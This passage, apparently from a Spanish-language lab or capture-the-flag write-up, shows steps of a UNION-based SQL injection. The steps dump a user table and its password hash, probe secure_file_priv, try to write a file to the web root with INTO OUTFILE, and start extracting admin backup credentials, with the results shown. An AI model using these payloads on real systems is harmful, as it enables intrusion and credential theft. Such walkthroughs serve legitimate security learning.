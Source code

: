 **Resultado**:

```
adam	1be9f5d3a82847b8acca40544f953515	4	5
```

Hash no crackeable en CrackStation.

**Explicación**: Intentar con la tabla `users` revela un usuario, pero el hash robusto impide descifrar la contraseña.

---

## Paso 13: Comprobar `secure_file_priv`

**Query**:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5
  FROM information_schema.global_variables
  WHERE variable_name='secure_file_priv'-- -
```

**Resultado**:

Columnas vacías (sin valor). Indica ausencia de restricción clara en directorio de salida.

**Explicación**: `secure_file_priv` vacío sugiere que no hay directorio designado para operaciones `OUTFILE`, pero podría haber restricciones de permisos.

---

## Paso 14: Intento de escritura con `OUTFILE`

**Query**:

```sql
' UNION SELECT '', 'file written successfully!', '', '', ''
  INTO OUTFILE '/var/www/html/proof.txt'-- -
```

**Resultado**:

```
Can't create/write to file '/var/www/html/proof.txt' (Errcode: 13 "Permission denied")
```

Permiso denegado.

**Explicación**: El error 13 muestra falta de permisos de escritura en el directorio raíz del sitio.

---

## Paso 15: Credenciales de `admin_bk`

**Query**:

```sql
' UNION SELECT 1, username, password, 4, 5
  FROM backup.admin_bk-- -
```
